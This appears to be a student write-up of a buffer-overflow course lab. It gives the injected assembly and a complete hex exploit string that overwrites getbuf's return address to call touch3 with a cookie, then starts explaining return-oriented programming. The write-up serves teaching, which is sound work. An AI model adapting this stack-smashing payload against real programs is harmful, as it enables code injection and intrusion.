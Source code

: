 ## LEVEL 3

In this phase, we need to pass paremeter as a string. As usual, we need to jump to `touch3` in the first place.

The string should be stored in a safe place. The reason is that after `getbuf` returned, its stack frame may be overwrriten by `hexmatch` and `strncmp` called in `touch3`. Actually, I find myself lucky enouch to find out a place that probably wouldn't be overwritten. That's a way to solve it...

Here's a better version.

The first thing we wanna do is to change the `cookie` into hex representation. My `cookie` is `0x110dfc17`, which is `31 31 30 64 66 63 31 37 00` in hex (mind the trailing zero).

Where is safe? `getbuf` is called by `test`, we might just as well save the string in stack frame of `test`.

How about the exploit code? Well, we just need to load the address of `cookie` string to `%rdi` and then return to `touch3`.

Now, just like what we do in LEVEL 2. We change the return address of `getbuf` to `%rsp`. By directly writing `touch3`'s address to buffer, we can simply use a ret in exploit code to jump to it. And above all these, we encode the cookie string safely.

exploit code:

```s
leaq 8(%rsp),%rdi    # when executing, cookie is at %rsp+8
ret
```

```txt
48 8d 7c 24 08 c3 00 00 /* exploit code, 6 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 c6 67 55 00 00 00 00 /* return to %rsp (exploit code) */
f6 17 40 00 00 00 00 00 /* return to touch3 */
31 31 30 64 66 63 31 37
00                      /* string cookie, 9 bytes */
```

## LEVEL 4

Ways to attack programs in LEVEL 1 to 3 is easy to be defensed, by stack randomization or simply self-caused segmentation fault.  
It's time for a new kind of attack called **Return-Oriented Programming, (ROP)**.

The strategy with ROP is to identify byte sequences within an existing program.that consist of one or more instructions followed by the instruction ret. Such a segment is referred to as a gadget.  
The figure below illustrates how the stack can be set up to execute a sequence of n gadgets. In this figure, the stack contains a sequence of gadget addresses. Each gadget consists of a series of instruction bytes, with the final one being 0xc3, encoding the ret instruction. When the program executes a ret instruction starting with this configuration, it will initiate a chain of gadget executions, with the ret instruction at the end of each gadget causing the program to jump to the beginning of the next.